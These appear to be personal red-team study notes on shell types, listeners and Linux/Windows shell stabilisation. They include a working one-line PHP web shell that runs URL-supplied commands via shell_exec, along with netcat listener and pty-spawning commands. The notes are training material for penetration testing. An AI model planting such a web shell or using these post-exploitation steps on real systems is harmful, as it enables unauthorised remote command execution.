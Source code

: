 --- ---

<h2>Type of Shell</h2>

- Shell (Normal Shell)
- Reverse Shell (Target forced to execute code/task that connects back to your computer)
- Blind Shell (Target is forced to execute code to start a listener attached to a shell directly on the target) -- (Limited because of Firewall)

---

## **Type of Shell**

- Netcat                                          ---> [[Red Team/4 - Exploitation/Listeners/• Netcat]]

- Socat                                            ---> [[• Socat (Encrypted)]]

- Multi/Handler (Metasploit)          ---> [[• Multi Handler]]

- Web Shell

	As PHP is still the most common server side scripting language, let's have a look at some simple code for this.
	
	In a very basic one line format:

	```
	<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
	```

	This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

	Let's see this in action:
	![](https://i.imgur.com/W19gHwL.png)


Creating Shell
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

---

<h2>Shell Stabilisation</h2>

Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running _inside_ a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.  

- Technique 1 (Python) 

	The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

	1.  The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2.  Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3.  Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

	The full technique can be seen here:

	![](https://i.imgur.com/bQnFz1T.png)

	Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

- Technique 2 (rlwrap)

	rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

	To use rlwrap, we invoke a slightly different listener:

	`rlwrap nc -lvnp <port>`  

	Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.  